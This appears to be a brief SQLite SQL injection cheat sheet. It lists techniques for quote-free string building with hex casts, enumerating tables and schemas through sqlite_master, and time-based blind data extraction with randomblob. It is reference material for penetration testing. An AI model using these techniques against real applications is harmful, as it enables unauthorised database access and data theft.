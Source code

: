 # SQLite SQL Injection Cheat Sheet

|If you need                  |                                    You use                                      |
|-----------------------------|:-------------------------------------------------------------------------------:|
|Concatenation                |                                     \|\|                                        |
|Comments                     |                                      --                                         |
|Conditionals                 |  CASE WHEN key='value1' THEN 'something' WHEN key='value2' THEN 'somethingelse' |
|Substring                    |                          substr(string,start,stop)                              |
|Length                       |                              length(string)                                     |
|Quotes without literal quotes|              cast(X'27' as text)  --use X'22' for double quotes                 |
|Table name enumeration       |               SELECT name FROM sqlite_master WHERE type='table'                 |
|Table schema enumeration     |                SELECT sql FROM sqlite_master WHERE type='table'                 |
|Time-based data extraction   |CASE WHEN condition='true' THEN randomblob(100000000) --causes time delay if true|


This work is based on http://atta.cked.me/home/sqlite3injectioncheatsheet
